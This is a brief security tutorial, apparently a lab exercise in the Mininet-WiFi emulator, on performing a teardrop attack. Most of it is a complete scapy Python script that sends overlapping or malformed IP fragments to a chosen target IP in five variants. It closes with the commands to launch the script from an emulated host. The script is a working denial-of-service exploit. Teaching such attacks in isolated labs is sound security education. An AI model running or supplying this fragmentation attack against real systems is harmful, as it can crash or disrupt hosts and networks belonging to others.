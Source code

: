 ```yaml
---
tags: security-tutorials
---
```


# Teardrop Attack

**In this short demo you will:** 
- Learn on how to perform teardrop attack
- **Demo**: https://www.youtube.com/watch?v=-s53tku0fJ0


**Requirements:** 
- Mininet-WiFi - https://github.com/intrig-unicamp/mininet-wifi
- scapy


First of all you need to run mininet-wifi with the command below:

```
$ sudo mn
```

Then you take the code below:

```python=
#!/usr/bin/env python
import sys
from scapy.all import *

total = len(sys.argv)
if total != 3:
    print("Performs teardrop attack")
    print(" ")
    print("Usage: ./tear TARGET-IP ATTACK-CODE")
    print("   Attack Codes:")
    print("   0: small payload (36 bytes), 2 packets, offset=3x8 bytes")
    print("   1: large payload (1300 bytes), 2 packets, offset=80x8 bytes")
    print("   2: large payload (1300 bytes), 12 packets, offset=80x8 bytes")
    print("   3: large payload (1300 bytes), 2 packets, offset=3x8 bytes")
    print("   4: large payload (1300 bytes), 2 packets, offset=10x8 bytes")

target=str(sys.argv[1])
attack=sys.argv[2]

print('Attacking target ' + target + ' with attack ' + attack)

if attack == '0':
    print("Using attack 0")
    size=36
    offset=3
    load1="\x00"*size

    i=IP()
    i.dst=target
    i.flags="MF"
    i.proto=17

    size=4
    offset=18
    load2="\x00"*size

    j=IP()
    j.dst=target
    j.flags=0
    j.proto=17
    j.frag=offset

    send(i/load1)
    send(j/load2)

elif attack == '1':
    print("Using attack 1")
    size=1300
    offset=80
    load="A"*size

    i=IP()
    i.dst=target
    i.flags="MF"
    i.proto=17

    j=IP()
    j.dst=target
    j.flags=0
    j.proto=17
    j.frag=offset

    send(i/load)
    send(j/load)

elif attack == '2':
    print("Using attack 2")
    print("Attacking with attack 2")
    size=1300
    offset=80
    load="A"*size

    i=IP()
    i.dst=target
    i.proto=17
    i.flags="MF"
    i.frag=0
    send(i/load)

    print("Attack 2 packet 0")

    for x in range(1, 10):
      i.frag=offset
      offset=offset+80
      send(i/load)
      print("Attack 2 packet " + str(x))

    i.frag=offset
    i.flags=0
    send(i/load)

elif attack == '3':
    print("Using attack 3")
    size=1336
    offset=3
    load1="\x00"*size

    i=IP()
    i.dst=target
    i.flags="MF"
    i.proto=17

    size=4
    offset=18
    load2="\x00"*size

    j=IP()
    j.dst=target
    j.flags=0
    j.proto=17
    j.frag=offset

    send(i/load1)
    send(j/load2)

else:
    print("Using attack 4")
    size=1300
    offset=10
    load="A"*size

    i=IP()
    i.dst=target
    i.flags="MF"
    i.proto=17

    j=IP()
    j.dst=target
    j.flags=0
    j.proto=17
    j.frag=offset

    send(i/load)
    send(j/load)

print("Done!")
```

and run it from **h1**:


```
mininet-wifi> xterm h1
h1# python teadrop.py 10.0.0.1 0
```

The number 0 can be replaced by 1, 2, 3 or 4.


___    
Source: https://samsclass.info/123/proj10/teardrop.htm
